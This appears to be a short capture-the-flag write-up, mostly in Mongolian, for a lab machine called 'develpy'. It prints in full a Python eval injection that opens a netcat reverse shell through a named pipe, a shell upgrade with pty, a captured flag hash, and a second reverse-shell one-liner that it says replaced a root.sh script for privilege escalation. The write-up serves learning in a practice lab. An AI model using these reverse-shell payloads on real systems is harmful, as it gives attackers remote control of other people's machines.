








## develpy   10.201.70.167

reverse shell

eval('...') — Python-д доторх string-ыг код мэт ажиллуулна.

__import__("os").system("...") — Python-аар shell команд ажиллуулах 

Доторх shell командын шаардлага:

rm /tmp/f; — /tmp/f файлыг устгана (байвал устгана).

mkfifo /tmp/f; — /tmp/f нэртэй named pipe (FIFO) үүсгэнэ.

cat /tmp/f | /bin/sh -i 2>&1 | nc 10.21.21.166 1234 >/tmp/f — энэ нь гол хэсэг:

/tmp/f-аас cat-аар уншина; уншсан зүйлээ sh -i-д өгнө (интерактив shell).

sh -i-ийн стандарт болон алдааны гаралтыг (2>&1) nc (netcat) руу илгээнэ, nc холбогдож байгаа хост (10.21.21.166:1234) руу өгнө.

nc-н холболтос илгээсэн өгөгдлийг (>/tmp/f) pipe руу бичнэ — ингэснээр сесс шийдэгдэж, холбогдсон алсын машинтай интерактив shell (reverse shell) үүснэ.

Энгийн үгээр: энэ код нь алсын хост руу холбогдож (10.21.21.166:1234) тухайн машин дээр интерактив shell (reverse shell/backdoor) нээх оролдлого. Named pipe ашиглан stdin/stdout-ыг холбож байна.

eval('__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.21.166 1234 >/tmp/f")')

cf85ff769cfaaa721758949bf870b019

 python3 -c "import pty;pty.spawn('/bin/bash')"

 pty library bolon spawn function ashiglaj bash shell iig launch hiisen

huuchin root.sh file iig usgaj shine iig uusgen reverse shell hiij connect hiisen

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.21.166 9999>/tmp/f

